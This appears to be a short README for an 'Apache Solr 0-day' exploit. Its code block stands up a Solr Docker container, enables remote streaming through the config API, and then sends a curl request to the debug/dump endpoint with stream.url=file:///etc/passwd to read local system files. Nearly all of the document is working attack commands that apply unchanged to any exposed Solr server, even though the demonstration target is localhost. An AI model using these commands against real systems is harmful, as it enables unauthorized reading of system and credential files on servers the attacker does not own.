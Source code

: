 #Apache Solr 0-day

## Hacked by: https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ 
```
# stand up test on docker
docker run --name solrbear -d -p 8983:8983 -t solr
docker start solrbear

# Enable remote stream
TARGET="localhost:8983"
curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://$TARGET/solr/movie/config -H 'Content-type:application/json'

# Exploit

curl "http://$TARGET/solr/movie/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"

```

